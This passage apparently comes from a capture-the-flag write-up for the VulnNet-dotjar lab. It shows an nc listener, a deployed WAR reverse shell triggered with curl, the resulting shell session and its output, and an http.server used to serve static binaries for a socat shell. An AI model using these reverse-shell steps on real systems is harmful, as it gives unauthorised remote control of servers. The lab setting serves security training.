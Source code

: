 - Setup a `nc` listener:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:42:54(HKT)]
└> nc -lnvp 443          
listening on [any] 443 ...
```

- Trigger the reverse shell:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:46:36(HKT)]
└> unzip revshell.war 
Archive:  revshell.war
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
   creating: WEB-INF/
  inflating: WEB-INF/web.xml         
  inflating: wrienossjrk.jsp
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:48:36(HKT)]
└> curl http://vulnnet-dotjar.thm:8080/revshell/wrienossjrk.jsp
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:48:20(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.203.203] 33058
whoami;hostname;id;ip a
web
vulnnet-dotjar
uid=1001(web) gid=1001(web) groups=1001(web)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:c1:df:0d:d2:ad brd ff:ff:ff:ff:ff:ff
    inet 10.10.203.203/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2901sec preferred_lft 2901sec
    inet6 fe80::c1:dfff:fe0d:d2ad/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `web`!

**Stable shell via `socat`:**
```shell
┌[root♥siunam]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.01.23|14:50:01(HKT)]-[git://master ✗]
└> python3 -m http.server 80                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
